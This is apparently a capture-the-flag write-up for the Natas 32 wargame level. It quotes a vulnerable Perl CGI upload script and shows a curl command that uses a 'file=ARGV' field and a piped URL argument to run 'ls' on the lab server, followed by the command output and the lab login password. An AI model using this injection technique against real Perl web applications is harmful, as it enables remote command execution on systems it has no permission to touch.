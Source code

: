 ```php
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
        my @elements=split /,/, $_;

        if($i==0){ # header
            print "<tr>";
            foreach(@elements){
                print "<th>".$cgi->escapeHTML($_)."</th>";   
            }
            print "</tr>";
        }
        else{ # table content
            print "<tr>";
            foreach(@elements){
                print "<td>".$cgi->escapeHTML($_)."</td>";   
            }
            print "</tr>";
        }
        $i+=1;
    }
    print '</table>';
}
else{
print <<END;
```

The source code same as natas31, but we need change the payload a little bit:

```shell
curl -F "file=ARGV" -F "file=@test.csv" --user natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?ls%20.%20|"
```

```
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>getpassword.c
</td></tr><tr><td>getpassword.c.tmpl
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index-source.pl
</td></tr><tr><td>index.pl
</td></tr><tr><td>index.pl.tmpl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
